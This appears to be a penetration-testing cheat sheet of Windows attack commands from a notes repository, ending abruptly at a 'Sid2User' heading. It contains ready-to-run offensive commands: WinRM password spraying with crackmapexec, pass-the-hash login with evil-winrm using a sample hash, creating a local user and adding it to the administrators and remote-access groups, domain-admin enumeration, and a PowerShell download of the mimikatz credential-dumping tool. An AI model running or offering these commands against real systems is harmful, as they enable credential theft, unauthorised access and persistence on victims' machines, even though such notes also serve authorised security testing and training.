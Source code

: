### WinRM
- https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm
- https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec/

`crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt`

### Pass the Hash WinRM
-https://ethicalhackingguru.com/how-to-install-and-use-evil-winrm-in-kali-linux/

`./evil-winrm.rb -u ITAdmin -H ca25ecb2135d9acee046f274dc7e1140 -i 192.168.2.210`

### Creating local windows user (powershell)
https://www.lifewire.com/net-command-2618094
```
NET USER username "password" /ADD

then add to a group for RDP...

net localgroup "Remote Desktop Users" mike /add
net localgroup "administrators" "mike" /add
net localgroup "remote management users" mike /add

or to create a new group
net localgroup GROUPNAME /add
```

### Copying files, recursively
`xcopy SOURCE DESTINATION /E /H`

### Get powershell version
`$PSVersionTable`
### NET commands
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771131(v=ws.11)

| **Command** | **Description** |
| --------------|-------------------|
`net share` | See all shares
`net start` | Windows check all services running: 
`net group "Schema Admins" /domain` | /domain is NOT the domain, just leave the actual word there. This command doesn't need altering
`net group "Domain Admins" /domain` | other
`net group "Enterprise Admins" /domain` | other

### Windows file manipulation
- Read files: `type filename.txt` or `more filename.txt`
- Copy folder: `Xcopy /E /I C:\dir1\sourcedir D:\data\destinationdir`

## Windows Firewall
### Windows Firewall rules
```netsh advfirewall firewall show rule name=all```
```Get-NetFirewallRule -Direction Inbound -Enabled True```

### Retrieving files (mimikatz)
```
[Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls"
Invoke-WebRequest -Uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip -OutFile mimikatz_trunk.zip
```

### Sid2User
executed from powershell of a computer on the domain
```